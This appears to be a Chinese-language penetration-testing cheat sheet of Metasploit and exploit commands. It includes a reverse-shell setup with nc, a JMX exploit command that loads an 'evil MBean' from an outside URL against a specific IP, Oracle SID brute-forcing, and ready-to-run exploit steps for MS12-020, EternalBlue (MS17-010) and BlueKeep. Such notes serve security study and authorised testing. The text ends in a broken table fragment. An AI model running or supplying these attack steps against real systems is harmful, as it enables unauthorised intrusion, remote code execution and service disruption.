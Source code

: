接着 msf 就拿到 session 了。

## 接受反弹的shell

nc 监听本地的 23333 端口，然后运行：
```
java -jar mjet.jar -p 1099 -u http://static.ricter.me/jmx/ -t 42.96.150.237
 ```

`http://static.ricter.me/jmx/ `是存放的 evil MBean 和 jar 包的地址。


MSF爆破Oracle数据库

```
use auxiliary/admin/oracle/tnscmd   # 该漏洞可以远程获取到 oracle 的内存信息,若是能获取到内存中的数据即为存在漏洞。

    set rhosts <ip>
    run

    use auxiliary/admin/oracle/sid_brute  # 爆破 oracle 的 SID
    set rhosts <ip>
    run

```


**MS12-020 & CVE-2012-0002**
- MSF 模块
    ```bash
    use auxiliary/scanner/rdp/ms12_020_check
    use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
    ```



**MS17-010**
- MSF 模块
```bash
    # 发现,检测
    use auxiliary/scanner/smb/smb_ms17_010
    set rhosts <ip>
    run

    # 攻击目标机
    use exploit/windows/smb/ms17_010_eternalblue
    set rhosts <ip>
    set lport 4444 <自己端口>
```



**cve_2019_0708_bluekeep**
```bash
    # 发现,检测
    use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
    set rhosts <ip>
    run

    # 利用
    use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
    set target <1-7>
    set rhosts <ip>
    show options
    exploit
    shell
    python

       Id  Name
   --  ----
```